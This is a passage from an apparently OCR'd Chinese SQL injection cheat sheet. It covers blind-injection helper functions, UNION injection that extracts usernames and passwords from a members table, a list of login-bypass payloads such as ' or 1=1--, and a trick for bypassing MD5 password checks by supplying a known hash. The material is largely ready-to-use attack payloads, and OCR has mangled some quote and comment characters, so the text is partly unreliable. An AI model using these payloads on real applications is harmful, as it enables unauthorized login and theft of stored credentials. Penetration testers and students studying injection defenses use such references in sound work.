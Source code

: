 ASCII() （SMP）
返回最左边字符的ASCII码的值。这是盲注的一个必备函数。SELECT ASCII(‘a’)

CHAR() （SM）
将一个整数转换为对应的ASCII值。SELECT CHAR(64)

Union注入

通过union你能跨表执行 SQL 查询。 基本上你可以污染（注入）查询使它返回另一个表的记录。

SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members

这个查询会联结并返回 news 表和 members 表的所有记录。

另一个例子：

' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--

UNION – 语言问题处理

当你使用 Union 注入的时候，有时会遇到错误，因为不同语言的设置（表的设置、字段的设置、表或数据库的联结设置等等），下面这些函数对于解决以上问题很有用。这样的问题比较少见，但当你处理例如日文、俄文、土耳其文或其他类似的应用程序时，你就会发现了。

SQL Server （S）

使用 COLLATE SQL_Latin1_General_Cp1254_CS_AS 或其他有效的方式 – 具体信息可以查看 SQL Server 的文档。

SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members

MySQL （M）

Hex() 基本上可以解决所有出现的问题。

绕过登录界面（SMO+）

SQL 注入入门指引，登录小技巧

admin’ —
admin’ #
admin’/*
‘ or 1=1–
‘ or 1=1#
‘ or 1=1/*
‘) or ‘1’=’1–
‘) or (‘1’=’1–
….
以不同的用户登录 （SM*）
‘ UNION SELECT 1, ‘anotheruser’, ‘doesnt matter’, 1–

* 旧版本的 MySQL 不支持 union 查询

绕过检查 MD5 哈希的登录界面

如果应用是先通过用户名获取记录，然后再把返回的 MD5 值与你输入的密码的 MD5 进行比较，那么你就需要一些额外的技巧欺骗应用来绕过验证了。你可以将一个已知明文的 MD5 哈希和它的明文一起提交，这种情况下，应用会比较你的密码和你提供的 MD5 值，而不是从数据库获取的 MD5。

绕过 MD5 检查的例子 （MSP）

Username : admin
Password : 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
 